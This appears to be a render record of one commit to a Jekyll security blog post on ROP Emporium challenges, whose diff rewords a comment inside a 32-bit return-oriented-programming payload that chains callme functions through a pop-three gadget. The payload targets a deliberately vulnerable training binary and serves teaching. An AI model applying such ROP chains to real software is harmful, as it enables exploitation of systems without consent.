

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-07-19-rop-emporium-challenges.markdown, in a window 1280 px wide and 900 px high, scrolled down 14278 px. Shown: the part 155-449 px from the top of the window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Added a comment

```diff
--- a/_posts/2019-07-19-rop-emporium-challenges.markdown
+++ b/_posts/2019-07-19-rop-emporium-challenges.markdown
@@ -824,7 +824,7 @@ Now, we just have to do the exploit step by step.
  18 payload += p32(0x2) # Argument 2 for callme_one()
  19 payload += p32(0x3) # Argument 3 for callme_one()
  20
- 21 payload += callme_two_addr # The gadget then returns into callme_two() and the cycle continues..
+ 21 payload += callme_two_addr # The gadget pops the 1,2,3 then returns into callme_two() and the cycle continues..
  22 payload += pop_three_addr
  23 payload += p32(0x1)
  24 payload += p32(0x2)
```
